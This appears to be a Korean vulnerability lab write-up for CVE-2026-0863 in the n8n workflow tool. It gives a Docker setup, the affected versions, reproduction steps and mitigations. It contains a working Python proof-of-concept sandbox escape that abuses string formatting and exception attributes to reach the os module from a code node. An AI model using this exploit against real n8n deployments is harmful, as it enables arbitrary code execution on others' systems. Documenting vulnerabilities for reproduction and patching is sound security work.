



## 취약점 요약
n8n은 다양한 앱, API 및 AI 서비스를 연결하여 반복적인 업무를 자동화할 수 있는 오픈소스 워크플로우 자동화 도구이다. 자체 호스팅을 지원하여 도커 등을 통한 자체 호스팅을 지원한다. 

본 [취약점](https://www.cve.org/CVERecord?id=CVE-2026-0863)은 문자열 포맷팅과 오류 처리를 사용하여, n8n의 Python 코드 노드를 통해 샌드박스 환경에 의한 제한을 우회하고 임의의 Python 코드를 실행할 수 있도록 한다. 

## 환경 구성
아래 명령어를 실행해 n8n을 컨테이너에 올려 실행한다.
```sh
    docker compose up -d 
```
로컬 호스트의 5678번 포트에 컨테이너가 연결되므로, [localhost:5678](http://localhost:5678)에 접속하여 컨테이너를 통해 실행되는 n8n에 접근할 수 있다.

### 실행 모드
코드 노드 안의 코드를 실행하기 위해 Task Runner가 사용되는데, 이 Task Runner의 실행 모드를 두 가지로 설정할 수 있다.
- internal 실행 모드

    Task Runner를 n8n과 동일한 컨테이너에서 n8n의 자식 프로세스로서 실행한다.

- external 실행 모드 

    n8n 프로그램 자체를 실행하는 컨테이너와는 **독립된 컨테이너, runner 컨테이너**를 따로 띄우고 이 컨테이너에서 Task runner를 실행한다. 
    
    runner 컨테이너는 n8n을 실행하는 메인 컨테이너와 통신하며 Python 코드 실행 요청을 받고, 그 결과값을 다시 메인 컨테이너에 반환해주는 역할을 수행한다.

2.x 이상의 버전에서는 기본적으로 external 실행 모드를 사용하는 것을 권장하고, internal 실행 모드를 사용하는 것이 매우 까다로워졌다. 따라서 실험 환경 또한 external 모드를 사용하도록 구성된다.

## 취약 조건
다음과 같은 n8n 버전에서 본 취약점이 발생한다.
- v1.123.14 미만
- v2.0.0 이상 v2.3.5 미만
- v2.4.0 이상 v2.4.2 미만

기본적으로 Python 코드 노드를 생성/수정할 수 있는 환경에서 취약점에 대한 공격이 수행될 수 있다.

## 재현 절차
1. 도커 환경을 구축하고, [localhost:5678](http://localhost:5678)에 접속한다.
2. n8n 초기 세팅(계정 설정 등)을 완료하고, Python 코드 노드를 workflow에 추가한다.
3. PoC 코드를 코드 노드 내부 코드 블록에 작성하고, workflow를 실행하거나 step을 실행한다.

## PoC 코드
```python
def new_getattr(obj, attribute, *, Exception):
    try:
        f'{{0.{attribute}.ribbit}}'.format(obj)
    except Exception as e:
        return e.obj

try:
    raise ValueError("pwn")
except Exception as e:
    tb = new_getattr(e, '__traceback__', Exception=Exception)
    frame = new_getattr(tb, 'tb_frame', Exception=Exception)
    builtins = new_getattr(frame, 'f_builtins', Exception=Exception)
    us = chr(95)
    imprt = builtins[us+us+'import'+us+us]
    import_globals = new_getattr(imprt, '__globals__', Exception=Exception)

    os = import_globals['os']
    return [{"json": {
        "uname": os.uname()
    }}]
```

위 코드를 실행하면 runner 컨테이너에 적용된 보안 정책을 우회하여 uname을 실행한 결과를 반환받을 수 있다.

공격자는 입맛에 맞춰 적절히 import하는 모듈 또는 속성을 변경하여 샌드박스 권한을 벗어난 임의의 Python 코드를 실행시킬 수 있다.

만약 internal 실행 모드를 사용한다면, 임의 코드 실행을 통해 n8n 프로세스 자체에도 영향을 줄 수 있다. 

## 실행 결과


위 스크린샷은 runner 컨테이너에서 uname을 실행한 결과다.



n8n의 Python 코드 노드에서 PoC 코드를 실행해보면, 첫 번째 스크린샷에서 확인한 정보가 출력되었음을 알 수 있다.



보안 정책을 우회하지 않았을 경우, 위 스크린샷과 같이 코드 실행이 거부된다.

## 대응 방안
- 본 취약점이 발생하는 n8n 버전 사용 지양 및 최신 버전 사용
- 접근 제어 강화
    - 본 취약점의 경우, 코드 노드를 생성하거나 수정할 수 있는 인증된 사용자에 의해 발생할 수 있으므로, 노드 생성/수정 권한을 소수 관리자에게만 부여하거나 사용자 인증을 강화해야 한다.
- External 실행 모드 적용
    - n8n의 External 실행 모드를 사용할 경우, 코드가 n8n을 실행하는 컨테이너와도 분리된 사이드카 컨테이너에서 실행되므로, 피해 범위를 유의미하게 줄일 수 있다.
